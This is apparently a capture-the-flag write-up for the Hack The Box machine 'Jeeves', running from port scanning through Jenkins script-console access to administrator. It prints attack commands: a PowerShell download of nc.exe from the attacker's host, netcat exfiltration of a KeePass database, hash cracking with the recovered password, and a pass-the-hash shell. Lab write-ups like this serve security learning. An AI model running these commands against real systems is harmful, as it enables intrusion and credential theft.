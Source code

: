 ![image](https://user-images.githubusercontent.com/68326057/117423605-88a0ba00-af3e-11eb-882c-0e2ac2d9f280.png)

# NMAP

```bash
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves

135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)

50000/tcp open  http         syn-ack Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -23m08s, deviation: 0s, median: -23m08s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 55172/tcp): CLEAN (Timeout)
|   Check 2 (port 4953/tcp): CLEAN (Timeout)
|   Check 3 (port 3169/udp): CLEAN (Timeout)
|   Check 4 (port 48293/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-07T13:53:07
|_  start_date: 2021-05-07T13:50:36
```

# SMB

```bash
crackmapexec smb IP
```

![image](https://user-images.githubusercontent.com/68326057/117424246-34e2a080-af3f-11eb-845f-65607edcee2b.png)

## /error.html

![image](https://user-images.githubusercontent.com/68326057/117424625-9acf2800-af3f-11eb-91ff-502cbfb33a03.png)


# jetty

![image](https://user-images.githubusercontent.com/68326057/117425482-7162cc00-af40-11eb-91e9-afbb9f81a4ce.png)

--> ![image](https://user-images.githubusercontent.com/68326057/117425524-79bb0700-af40-11eb-91d4-cf316a0db016.png)

```bash
http://10.10.10.63:50000/askjeeves/
```

## via script groovy

--> http://10.10.10.63:50000/askjeeves/script

![image](https://user-images.githubusercontent.com/68326057/117426769-ebe01b80-af41-11eb-8eb7-1493f2946501.png)

![image](https://user-images.githubusercontent.com/68326057/117427577-d0294500-af42-11eb-9805-a09b5cfe676d.png)

![image](https://user-images.githubusercontent.com/68326057/117427611-d7505300-af42-11eb-8696-9afa29e4691d.png)


# User

![image](https://user-images.githubusercontent.com/68326057/117428257-85f49380-af43-11eb-8255-1d67610d47f4.png)

![image](https://user-images.githubusercontent.com/68326057/117428946-2a76d580-af44-11eb-90b3-a29d88650714.png)

![image](https://user-images.githubusercontent.com/68326057/117429459-b426a300-af44-11eb-98aa-973fc89ad358.png)

```bash
 Directory of C:\Users\Administrator\.jenkins\users\admin                                                                              
                                                                                                                                       
11/03/2017  10:34 PM    <DIR>          .                                                                                               
11/03/2017  10:34 PM    <DIR>          ..                                                                                              
11/03/2017  10:34 PM             1,419 config.xml                                                                                      
               1 File(s)          1,419 bytes                                                                                          
               2 Dir(s)   7,482,236,928 bytes free                                                                                     
                                                                                                                                       
C:\Users\Administrator\.jenkins\users\admin>type config.xml  
```

```bash
<passwordHash>#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO</passwordHash>
```


--> https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

Use This to Download file

```bash
powershell.exe wget "http://10.10.14.21:8000/nc.exe -o nc.exe 
```

# Sending file

```bash
My machine 
sudo nc -l -p 999 > CEH.kbdx

On Victim
nc.exe -w 5 MYIP 999 < CEH.kbdx
```

```bash
file CEH.kdbx 
CEH.kdbx: Keepass password database 2.x KDBX
keepass2john CEH.kdbx > hash
```

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:41 DONE (2021-05-07 21:14) 0.02424g/s 1332p/s 1332c/s 1332C/s mylove08..monkeybum
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

# ADMINISTRATOR

```bash
pth-winexe -Ujeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd
```

![image](https://user-images.githubusercontent.com/68326057/117436591-c4428080-af4c-11eb-8f24-9eb4a44bbbd8.png)
